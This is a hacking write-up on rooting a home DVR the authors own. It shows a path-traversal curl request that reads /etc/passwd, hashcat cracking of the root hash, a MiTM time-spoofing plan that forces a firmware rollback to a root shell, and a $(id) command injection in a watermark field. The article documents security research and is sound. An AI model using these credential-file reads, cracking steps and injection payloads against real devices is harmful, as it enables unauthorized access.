




# From Black Box to UID 0

**By [Zezadas](https://www.sefod.eu/) and [David Silva](https://davidsilva.pt/)**

This article is intended to show a broader audience the fun side of hacking and how a combination of mistakes and wild ideas, like bending the time (more on that later), may lead to surprising results.

With this article, we want to share some tips with the community and inspire people to research their devices. 

This research was presented at BSides Lisbon 2023 under the title [Hacking Embedded Devices - From Black Box to UID 0](https://www.youtube.com/watch?v=Md39nIlMo5k).

----


## Introduction

This is the story of two friends, Zezadas and David, a pandemic lockdown, a lot of time to spare and a desire for high-fidelity nostalgia.

David had purchased a digital video recorder (DVR) to digitize VHS tapes. The device has an ethernet port, mentioned multiple discontinued features like connectivity to YouTube and a mobile application, but no ability to transfer recordings over the network. What a bummer!

David showed Zezadas the device and what he had discovered thus far. The two friends joined forces with a common goal of adding more functionalities to the device and learn something new while attempting to jailbreak it.


---

## Initial Reconnaissance

The DVR features several standard interfaces: HDMI input for video capture, HDMI output for the TV, analog RCA Component (but not Composite), an Ethernet port for network, a USB port, and a SATA interface intended for storage. We also saw a set of exposed test points beneath the SATA connector (likely used for low-level debugging or manufacturing access), but their exact purpose was not determined.


<center>Device overview from manufacturer promotional material</center>

The vendor’s website indicates that the company previously offered a mobile application for iOS and Android called GameMate, which allowed users to control the device remotely.

The support page offers firmware updates for download, an Open Source Notice, and little else beyond notices about discontinued features.

An nmap scan confirms the existence of a REST API that is likely the one used by the mobile application, but no services like SSH, FTP, or telnet.

Available firmware updates are encrypted and the Open Source Notice shows Linux-related tools and libraries, strongly suggesting that the device was built on a standard Linux software stack.

The mobile application and all the integrations offered as selling points for the device are now discontinued. The network port is now exclusively used to set the clock.


---

## Reverse Engineering the Mobile Application

The vendor previously provided an Android application called GameMate for remotely controlling the device. Although it has long since been removed from the Play Store, it is still available for download from public mirrors.

Reversing the application with JADX revealed that all logic was controlled by a library named `hellocpp`. 

Opening the library in Ghidra reveals the methods from the REST API called by the mobile application to control the device.

Here are some of the endpoints:

```
...
"http://%s:%d/eos/method/get_file_content"
"http://%s:%d/eos/method/get_file_content/content_name=%s"
"http://%s:%d/eos/method/pairing"
"http://%s:%d/eos/query/device_name_get"
"http://%s:%d/eos/method/pincode_check"
"http://%s:%d/eos/method/keep_alive"
"http://%s:%d/eos/method/get_box_status"
"http://%s:%d/eos/method/pincode_gen"
"http://%s:%d/eos/query/pincode_check_result"
"http://%s:%d/eos/method/quit_pairing"
"http://%s:%d/eos/method/up"
"http://%s:%d/eos/method/down"
"http://%s:%d/eos/method/left"
"http://%s:%d/eos/method/right"
"http://%s:%d/eos/method/f1"
"http://%s:%d/eos/method/f2"
"http://%s:%d/eos/method/f3"
...
```

Controlling the device through the app requires a standard verification flow:

1. The mobile application requests a pairing PIN.
2. The box displays a 4-digit PIN on the TV screen.
3. The user enters the PIN into the mobile application.
4. The application sends the PIN to the box API for verification.


As for the API endpoints used for interacting with the device, a few stood out as particularly interesting:

 - `plGetFilesInfos`
 - `plGetDirList`
 - `snapshotPathGet`

`plGetFilesInfos` is used to enumerate media files stored on the device. The endpoint accepts a `file_name_path` parameter (e.g., `/media/sda1`). Its output is, however, limited to video captures recorded by the device.

```json
// curl 'http://192.168.1.180:24170/eos/method/get_files_infos' \
//  --data 'file_name_path=/media/sda1’

[
  {
    "thumb_size": "8.9KB",
    "file_type": "1",
    "file_name": "141111-1854.mp4",
    "date": "2014/11/11 18:58:13",
    "file_length": "239",
    "file_size": "359.2 MB",
    "thumb_position": "/media/sda1/.thumb/.141111-1854_thumb.jpg"
  }
]
```

  
`plGetDirList` is used to list directories. It accepts a `file_name_path` parameter (e.g., `/`) and allows directory traversal across the filesystem. However, it only returns a list of directories, not files.

```json
// curl 'http://192.168.1.180:24170/eos/method/get_folders' \
//  -d file_name_path='/'

{"folder_list":[
  {"name": "/bin"},{"name": "/boot"},{"name": "/dev"},{"name": "/etc"},
  {"name": "/home"},{"name": "/lib"},{"name": "/media"},{"name": "/mnt"},
  {"name": "/opt"},{"name": "/proc"},{"name": "/sbin"},{"name": "/srv"},
  {"name": "/sys"},{"name": "/tmp"},{"name": "/usr"},{"name": "/var"}
]}
```

`snapshotPathGet` is used to download the thumbnails of the recordings. It accepts a `content_name` parameter that is not properly restricted or validated. As a result, the endpoint allows the download of not only thumbnail assets, but any arbitrary file.

This allows access to sensitive system files, including `/etc/passwd`, revealing the hash of the root account:

```
# curl http://192.168.1.180:24170/eos/method/get_file_content
#  /content_name=/etc/passwd

root:<redacted>:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh

# ...
```

The extracted hash was brute-forced using Hashcat, and within a few hours the corresponding plaintext password was recovered:

```
# hashcat -m 1500 -a 3 hash.txt

hashcat (v6.2.6) starting                                                                                                         
                                                                                                                                  
OpenCL API (OpenCL 3.0 PoCL 7.0  Linux, Release, RELOC, LLVM 20.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]  
================================================================================================================================  
* Device #1: cpu-haswell-13th Gen Intel(R) Core(TM) i9-13900HX, 29984/60032 MB (30016 MB allocatable), 32MCU                      
                                                                                                                                  
Minimum password length supported by kernel: 0                                                                                    
Maximum password length supported by kernel: 8                                                                                    
                                                                                                                                  
Hashes: 1 digests; 1 unique digests, 1 unique salts                                                                               
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates  

...

<redacted_hash>:<redacted_password>                                    
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1500 (descrypt, DES (Unix), Traditional DES)
Hash.Target......: <redacted_hash>
Kernel.Feature...: Pure Kernel
Guess.Mask.......: ?l?d?d?d?d?d?d?l [8]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 27995.3 kH/s (7.62ms) @ Accel:8 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 154943488/676000000 (22.92%)
Rejected.........: 0/154943488 (0.00%)
Restore.Point....: 59392/260000 (22.84%)
Restore.Sub.#1...: Salt:0 Amplifier:1024-2048 Iteration:0-1024
Candidate.Engine.: Device Generator
Hardware.Mon.#1..: Temp: 90c Util: 76%
```

But there's little point in having the login credentials if the device does not expose any authentication or login endpoint where they can be used.

---

## Crashes and Core Dumps


During the testing of the API, we sent a malformed path name that caused the device to crash.

By pure luck, we had a USB flash drive connected to the device. It also happened to have an activity LED that started blinking after the crash. While this was a lucky coincidence, it also serves as a useful tip.

We removed the flash drive, connected it to a computer and saw a password-protected compressed crash log.

```
# 7z l cr-2020-05-28-21-33-05.7z 

Scanning the drive for archives:
1 file, 4989 bytes (5 KiB)

Listing archive: cr-2020-05-28-21-33-05.7z

--
Path = cr-2020-05-28-21-33-05.7z
Type = 7z
Physical Size = 4989
Headers Size = 173
Method = LZMA:16 7zAES
Solid = -
Blocks = 1

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2020-05-28 21:33:55 ....A        20565         4816  .cr-2020-05-28-21-33-05.txt
------------------- ----- ------------ ------------  ------------------------
2020-05-28 21:33:55              20565         4816  1 files
```

At this point, we suspected that the device used the USB flash drive as a temporary buffer for crash data. Since the drive is formatted as NTFS, the original uncompressed files could be recovered using PhotoRec.

```
# photorec

PhotoRec 7.2, Data Recovery Utility
Christophe GRENIER <grenier@cgsecurity.org>
https://www.cgsecurity.org

Disk flash_drive.img - 1073 MB / 1024 MiB (RO)
     Partition                  Start        End    Size in sectors
   P NTFS                     0   0  1   130 138  8    2097152


6 files saved in /tmp/recovered/recup_dir directory.
Recovery completed.
```

In the recovered files, there was a crash log and a core dump.

```
# cat cr-2020-05-28-21-33-05.txt

[New LWP 1310]
[New LWP 1311]

...

warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.

warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.

...

Core was generated by `./encode'.
Program terminated with signal 11, Segmentation fault.
#0  0x00026178 in avm_FileList_Clean (head=0x4433735c, current=0x4433735c) at avm_db.c:151
151	avm_db.c: No such file or directory.
	in avm_db.c

...  

== Info sharedlibrary
From        To          Syms Read   Shared Object Library
0x40029c90  0x400382ac  Yes (*)     /lib/libpthread.so.0
0x40061c3c  0x400d8d74  Yes (*)     /usr/lib/libasound.so.2

...

== Info registers
r0             0x4433735c	1144222556
r1             0x4433735c	1144222556
r2             0x1d	29
r3             0x1d	29
r4             0x114ce5c	18140764
r5             0x44338490	1144226960
r6             0x4002c550	1073923408
r7             0x152	338
r8             0x3d0f00	4001536
r9             0x400383d8	1073972184
r10            0x0	0
r11            0x4433734c	1144222540
r12            0x424adc	4344540
sp             0x44337338	0x44337338
lr             0x297e4	169956
pc             0x26178	0x26178 <avm_FileList_Clean+92>
cpsr           0x20000010	536870928

== Disassemble
Dump of assembler code for function avm_FileList_Clean:
   0x0002611c <+0>:	push	{r11, lr}
   0x00026120 <+4>:	add	r11, sp, #4
   0x00026124 <+8>:	sub	sp, sp, #16
   0x00026128 <+12>:	str	r0, [r11, #-16]
   0x0002612c <+16>:	str	r1, [r11, #-20]

...   
```

```
# strings ./core-2020-05-28-21-33-05

...

./encode
CONSOLE=/dev/console
OLDPWD=/
HOME=/
runlevel=5
INIT_VERSION=sysvinit-2.86
TERM=linux
PATH=/bin:/usr/bin:/sbin:/usr/sbin
RUNLEVEL=5
PREVLEVEL=N
SPLASH=1
PWD=/opt/dvsdk/dm368/usr/share/ti/dvsdk-demos
previous=N
VERBOSE=no
./encode
```

Analysis of the recovered crash artifacts made it possible to identify the binary responsible for the fault:

 - /opt/dvsdk/dm368/usr/share/ti/dvsdk-demos/encode

The binary is named after a Texas Instruments Digital Video SDK (DVSDK) demo suite, indicating that the device is built on an embedded multimedia platform.

Further inspection of the crash metadata allowed to fingerprint the underlying system more precisely:

 - CPU architecture: ARMv5
 - Kernel version: Linux 2.6 (DaVinci platform)
 - Platform family: TI DaVinci digital media SoC
 - SoC identification: TMS320DM368

The *DaVinci* designation refers to Texas Instruments' digital media system-on-chip family, widely used in embedded video processing devices.

With the binary path recovered through the crash data, the `encode` executable was subsequently extracted using the previously mentioned path traversal vulnerability.

```
# curl http://192.168.1.180:24170/eos/method/get_file_content
#  /content_name=/opt/dvsdk/dm368/usr/share/ti/dvsdk-demos/encode

...

# du -h encode
7.1M	encode
```

The file size hints that this monolith is responsible for all the logic of the device. 

---

## Reverse Engineering encode


By reversing the `encode` binary, we found logic for the UI, the API server, and, most importantly, how the device handles firmware updates.

The update routine proved to be relatively straightforward to find and revealed that the firmware is decrypted by invoking the OpenSSL utility through the shell.

```c
int decrypt(EVP_PKEY_CTX *ctx,uchar *out,size_t *outlen,uchar *in,size_t inlen)
{
  char buf [1024];
  memcpy(buf,"openssl enc -d -des3 -in /tmp/file.en -out /tmp/file.de -pass pass:<redacted>",0x4d);
  system(buf);
  sync();
  return 0;
}
```

This same password can be used to decrypt the firmware images previously downloaded from the vendor’s website.

To reconstruct the rootfs, we developed a Python script that mimics the observed behavior of the update logic, implementing the same offset calculations, partition extraction and decryption as the original implementation.

This allowed the firmware images to be decrypted and mounted locally, enabling full inspection of the system contents, accelerating further reverse engineering efforts.

```
# ls -luah
total 32
drwxr-xr-x   20 root  root   640B May 18 22:38 .
drwxr-xr-x    4 root  root   128B May 18 22:38 ..
drwx------   87 root  root   2.7K May 18 22:38 bin
drwx------    4 root  root   128B May 18 22:38 boot
drwx------  700 root  root    22K May 18 22:38 dev
drwx------   64 root  root   2.0K May 18 22:38 etc
-rw-r--r--    1 root  root   381B May 18 22:38 git.log
drwx------    3 root  root    96B May 18 22:38 home
drwx------   73 root  root   2.3K May 18 22:38 lib
-rw-r--r--    1 root  root    12B May 18 22:38 linuxrc
-rw-r--r--    1 root  root    10B May 18 22:38 media
drwx------    7 root  root   224B May 18 22:38 mnt
drwx------    4 root  root   128B May 18 22:38 opt
drwx------    3 root  root    96B May 18 22:38 proc
drwx------  138 root  root   4.3K May 18 22:38 sbin
drwx------    3 root  root    96B May 18 22:38 srv
drwx------    3 root  root    96B May 18 22:38 sys
-rw-r--r--    1 root  root     8B May 18 22:38 tmp
drwx------   11 root  root   352B May 18 22:38 usr
drwx------   12 root  root   384B May 18 22:38 var
```

At this point, it was technically possible to create and install custom firmware, but this approach was deliberately avoided. While feasible, it carried a significant risk of permanently bricking the device, particularly given the lack of a reliable recovery mechanism.

---

## Hardware Access

Upon opening the device, we saw two distinct UART interfaces inside the enclosure. One appeared to be associated with the infrared remote subsystem and the other was connected to the main Linux system.


<center>UART Wiring Setup: PC RX → Device TX, PC TX → Device RX, and shared GND.</center>


Connecting to the Linux UART interface and booting the device allowed us to read the full boot log. Early in the boot, the standard U-Boot prompt appeared: 

```
“Hit any key to stop autoboot”
```

However, despite multiple attempts we were unable interrupt the boot process or access the U-Boot shell (and yes, we tried pressing "any key").

As the system continued booting, Linux initialized normally. Shortly after, `encode` launched but no login prompt was ever presented. 

Even when deliberately triggering crashes in the `encode` process (as previously demonstrated), the system simply restarts the service without exposing any form of interactive login or shell access.

---

## Init Script

Among the startup services, we saw `/etc/init.d/encode-demo`.

The service is designed to run continuously in a loop, automatically restarting `encode` when it crashes. However, an additional safety mechanism is also implemented to handle corrupted firmware.

```bash
  counter=0
  #Limited dwell time during the running encode demo(sec).
  #If running time over the this value, counter will be increased(plus one).
  limit_RT=10
  #Limited frequency that is related with limit_RT value.
  #If counter value over the this value, this script will be done. 
  limit_CT=5
  
  ...

  # encode has crashed, do clean-up and restart encode
  # if encode has crashed too frequently, we must stop the "restarting"
  # and switch to the other firmware.
  #
  # "Too frequently" is determined here.

	echo "#killall encode" 
	killall encode
  timestamp_end=$(GetTime)
  running_time=`expr $timestamp_end - $timestamp_start`
  echo "running_time:"$running_time
  if [ "$running_time" -lt "$limit_RT" ]; then
      let counter=counter+1
      echo $counter
	else
		counter=0
    fi  
    if [ "$counter" -eq "$limit_CT" ]; then
        #echo "total counter is :"$counter
        echo "#break out !!!"
        break;
    fi
done 

# If scripts runs to this point, encode has crashed very frequently.
# So we decide to switch to the other firmware.

echo "#BOOTCMD"
BOOTCMD=`fw_printenv bootcmd`
case "$BOOTCMD" in
  *4000000*)
  ...

  *)
  # switching from firmware 1 to firmware 2
  echo "setting fw2 space boot"
  ...
esac

# this script will end here, and allows console login!
```

The device uses a dual-partition layout (Bank A / Bank B). If `encode` experiences five consecutive crashes where each instance of encode exits in less than 10 seconds, the system assumes the firmware is corrupted and triggers a rollback procedure, switching execution to the alternate firmware bank. After switching banks, the system drops the user into the login prompt.

Triggering this rollback condition proved difficult in practice. If any instance runs for 10 seconds or longer, the crash counter is reset to zero.

Attempting to generate high-frequency crash conditions led to CPU saturation because of the the device's limited processing performance, which delayed startup and ultimately prevented crash events from being registered within the required time window. Reducing the request rate, however, meant falling below the threshold needed to trigger the condition.

---

## Bending Time for Fun and Root

Here comes the good part!

Upon further analysis of the startup behavior of the `encode` binary, we noticed that the device uses a peculiar mechanism to update its time from a time server (the only networking feature still officially supported by the vendor).

On each execution, `encode` attempts to synchronize the system clock by performing an HTTP request to `http://google.com` and extracting the date header.

Notably, this is done over plain HTTP rather than HTTPS, making the time synchronization flow vulnerable to MiTM (Man-in-the-Middle) attacks.

```c
AVM_NETWORK_MENU_RET avm_sync_network_time(void)

{
  AVM_NETWORK_MENU_RET local_14;
  AVM_NETWORK_MENU_RET net_ret;
  
  local_14 = avm_check_internet_connection();
  if ((local_14 == NET_OK) &&
     (local_14 = sync_time_from_net("http://www.google.com"), local_14 == NET_OK)) {
    local_14 = NET_OK;
  }
  return local_14;
}
```

By intercepting and modifying the HTTP response, the perceived system time during boot could be effectively controlled, allowing the device's time synchronization mechanism to be influenced in a deterministic way.

This behavior, in combination with the previously identified crash-based fallback condition, resulted in the following exploit plan:

 1. Boot the device and wait for `encode` to request the current time.
 2. Use a MiTM proxy to intercept the time request and respond with a manipulated timestamp (e.g., `13:37`).
 3. Send a malformed request to trigger a crash.
 4. Wait for `encode` to restart and request the time again.
 5. Respond with a time shifted 10 minutes earlier (e.g., `13:27`).
 6. Trigger another crash.
 7. Repeat steps 4–6 until the crash counter reaches 5.


By making the delta between start time and crash time negative (`-10 minutes`), the condition to increment the crash counter is met.

Repeating this five times will trigger the firmware rollback mechanism which returns execution to the login prompt, where the previously recovered root password can be used.


```
...

Starting encode
running_time: -650
1
#sleep
running_time: -650
2
#sleep

...

running_time: -650
5
#Break out !!!!
Setting fw2 space boot
_____                    _____           _         _   
|  _  |___ ___ ___ ___   |  _  |___ ___  |_|___ ___| |_ 
|     |  _| .'| . | . |  |   __|  _| . | | | -_|  _|  _|
|__|__|_| |__,|_  |___|  |__|  |_| |___|_| |___|___|_|  
              |___|                    |___|            

dm368-evm login: root
Password:
root@dm368-evm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@dm368-evm:~#
```


MISSION ACCOMPLISHED!


Or so we thought...


---

## The Ghost in the Footage


Even before any real research started, we tried a limited set of low-effort command injections against the device's User Interface. There were not many input fields available for fuzzing or injection testing, but there was a watermark customization feature that accepted user-controlled input.

Inputing strings with commands like `$(id)` was possible, but it did not seem to be reflected anywhere.





Some months went by and new gear arrived. It was now time to use the device for the purpose for it was bought: digitizing VHS tapes.

As we hit the record button, we saw some unexpected text overlaying the video:

```
uid=0(root) gid=0(root) groups=0(root)
```

<video src="video.webm" autoplay loop muted playsinline></video>
<center>Hackers (1995) footage overlaid with the command injection output</center>

This led to a surprising realization: there had been an unintentional command injection path in the watermark display functionality all along, but the watermark feature requires a device connected to the device's HDMI input port and one was never connected until then.

The system had been vulnerable from the very beginning, it simply required the right execution context to reveal itself.

